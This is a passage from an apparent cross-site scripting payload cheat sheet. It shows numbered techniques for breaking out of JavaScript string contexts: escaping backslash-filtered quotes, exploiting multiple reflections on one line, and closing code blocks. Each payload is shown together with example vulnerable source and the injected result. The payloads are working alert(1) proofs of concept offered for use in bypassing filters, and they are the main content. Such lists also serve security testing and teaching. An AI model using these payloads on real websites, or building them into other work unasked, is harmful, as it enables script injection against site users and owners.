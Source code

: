 The quotes are escaped by a backslash so we need to bypass them

- After input the payload

```html
<script>
    var sitekey = '\\'alert(1)//';
</script>
```

9. Use when there’s multi reflection in the same line of JS code

```html
/alert(1)//\
/alert(1)}//\
```

- Example source code

```html
<script>
    var a = 'REFLECTED_HERE'; var b = 'REFLECTED_HERE';
</script>
```

- After input the payload

```html
<script>
    var a = '/alert(1)//\'; var b = '/alert(1)//\';
</script>
```

10. Use when input inside a string delimited value and inside a single logical block like function or conditional (if, else, etc).

```html
'}alert(1);{'
\'}alert(1);{// 
```

- Example source code

```html
<script>
    var greeting;
    var time = 1;
    if (time < 10) {
    test = 'REFLECTED_HERE';
  }
</script>
```

- After input the payload

```html
<script>
    var test;
    var time = 1;
    if (time < 10) {
    test = ''}alert(1);{'';
  }
</script>
```
